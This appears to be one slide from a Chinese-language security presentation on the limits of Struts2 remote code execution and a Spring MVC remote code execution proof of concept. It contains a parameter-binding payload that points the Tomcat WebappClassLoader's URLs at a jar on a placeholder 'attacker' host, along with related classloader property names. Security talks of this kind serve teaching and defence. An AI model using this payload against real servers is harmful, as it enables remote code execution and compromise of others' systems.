

# struts2远程代码执行的局限
Spring mvc远程代码执行POC
class.classLoader.URLs[0]=jar:http://attacker/spring-exploit.jar!/
org.apache.catalina.loader.WebappClassLoader
URLs		Url
jarPath		String
62